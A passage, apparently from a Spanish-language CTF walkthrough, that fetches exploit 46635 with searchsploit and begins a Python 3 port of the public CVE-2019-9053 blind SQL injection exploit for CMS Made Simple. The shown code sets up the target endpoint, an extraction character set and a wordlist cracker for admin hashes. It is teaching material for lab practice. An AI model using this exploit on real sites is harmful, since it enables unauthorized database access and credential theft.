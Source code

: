 ```bash
searchsploit -m php/webapps/46635.py
```

El exploit original es para Python 2.7, pero lo convertimos a Python 3.

---

# 🐍 Exploit en Python 3

Guardamos el siguiente código como `exploit.py`:

```python
#!/usr/bin/env python3
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053

import requests
from termcolor import colored
import time
from termcolor import cprint
import argparse
import hashlib

# Usamos argparse en lugar de optparse (más moderno)
parser = argparse.ArgumentParser()
parser.add_argument('-u', '--url', required=True, help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_argument('-w', '--wordlist', help="Wordlist for crack admin password")
parser.add_argument('-c', '--crack', action="store_true", help="Crack password with wordlist", default=False)

args = parser.parse_args()

url_vuln = args.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = ""
if args.wordlist:
    wordlist += args.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt
    with open(wordlist) as dict_file:
        for line in dict_file.readlines():
            line = line.strip()
            beautify_print_try(line)
```